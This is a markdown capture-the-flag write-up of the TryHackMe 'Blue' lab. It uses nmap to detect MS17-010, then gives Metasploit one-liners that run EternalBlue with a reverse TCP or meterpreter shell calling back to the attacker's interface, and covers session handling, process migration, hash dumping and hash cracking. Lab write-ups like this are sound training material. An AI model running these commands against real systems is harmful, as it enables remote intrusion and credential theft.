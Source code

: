 ```yaml
---
title: 'TryHackMe - Blue'
description: "Vulnerability scanning using nmap, exploitation using metasploit. Examples of creating a reverse TCP shell, upgrading the shell, process migration, hash cracking, and search to find flags."
author: 'Tim Sonner'
date: '2023-06-29'
hero: '/thm-blue/thm-blue-hero.png'
published: true
---
```


## Recon  

**Set a terminal environmental variable for target IP address**  

```
export IP=<target-ip-address> 
```

**Run nmap services and vulnerabilities scan**  

```  
nmap -sV -vv --script=vuln $IP  
```  

![](/thm-blue/thm-blue-nmap-command.png)    

**Results**  

![](/thm-blue/thm-blue-nmap-results.png)

> Host is vulnerable to Remote Code Execution vulnerability affecting Microsoft SMBv1 servers (ms17-010).  

More info:  

https://www.exploit-db.com/exploits/41891  

## Exploit  

**Run msfconsole and perform reverse TCP shell exploit**
```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;set payload windows/x64/shell/reverse_tcp;setg RHOSTS $IP;setg LHOST tun0;run"  
```  

> We can set the RHOSTS, LHOST, and payload option for the script (RHOSTS and LHOST are set globally).  

**Metasploit go brrrr...**    

 ![](/thm-blue/thm-blue-msfc-reverse-tcp-shell-command.png)  

 > Options have been set and exploit is now running.  

**Results**  

  ![](/thm-blue/thm-blue-eternal-blue-exploit-success.png)  

  > Exploit initially failed, but eventually we get a reverse TCP shell.  

**Backgrounding the shell example**    

```  
background  
```  
  
> Ctrl-z does the same thing.  

 ![](/thm-blue/thm-blue-background-example.png)

**Post-Exploit > Upgrade the reverse TCP shell to a meterpreter shell**  

**Search for the upgrade script**   
```
search upgrade shell   
```  

 ![](/thm-blue/thm-blue-search-upgrade-shell-1.png)  

**Select the script for use**  

```  
use shell_to_meterpreter  
```
> Alternative: "use 4" (4th result in searches).  
  A Super l33t hax0r trick about upgrading shells is here...  
 https://docs.metasploit.com/docs/pentesting/metasploit-guide-upgrading-shells-to-meterpreter.html 

 ![](/thm-blue/thm-blue-run-upgrade-shell.png)  

**Set options for shell_to_meterpreter - The script needs the session ID of our reverse TCP shell**  

 ![](/thm-blue/thm-upgrade-shell-options.png)  

 > Example of setting options and using "sessions" to display sessions  

**Run the script**  

 > The script ran, but we don't have an upgraded shell...

**Hmmm. Thats not working...**  
 
 For some reason, the script isn't upgrading our reverse TCP shell. No worries, a meterpreter shell is the default when a payload isn't set for the eternal blue exploit.

**Let's try again**  

```  
msfconsole -x "use exploit/windows/smb/ms17_010_eternalblue;setg RHOSTS $IP;setg LHOST tun0;run"  
```  
 > This time we omit the "set payload windows/x64/shell/reverse_tcp" option. A meterpreter shell will be spun up by default. Also, we don't have to set the global variables again, but this is the handy initial one-liner to go back to and use, cause honestly the reverse TCP shell kinda sucks.  

 ![](/thm-blue/thm-blue-meterpreter-default.png)  

**Background the meterpreter session, then view sessions. We started with default meterpreter shell**  

 ![](/thm-blue/thm-blue-meterpreter-session-started.png)

**Reconnect to the meterpreter session and list the current processes running on the target**  

 ![](/thm-blue/thm-blue-meterpreter-ps.png)  

**Get process ID of current meterpreter shell**

 ![](/thm-blue/thm-blue-meterpreter-getpid.png)  

**Migrate to another process and back. Grep is kinda broken...**  

 ![](/thm-blue/thm-blue-meterpreter-migrate.png)  

**Dump the user hashes**  

 ![](/thm-blue/thm-blue-meterpreter-hashdump.png)  

**Quick and dirty hash crack using CrackStation**  

 ![](/thm-blue/thm-blue-crackstation.png)  

**Quick and dirty find flags**  

 ![](/thm-blue/thm-blue-find-flags.png)  

# Donezo Funzo.













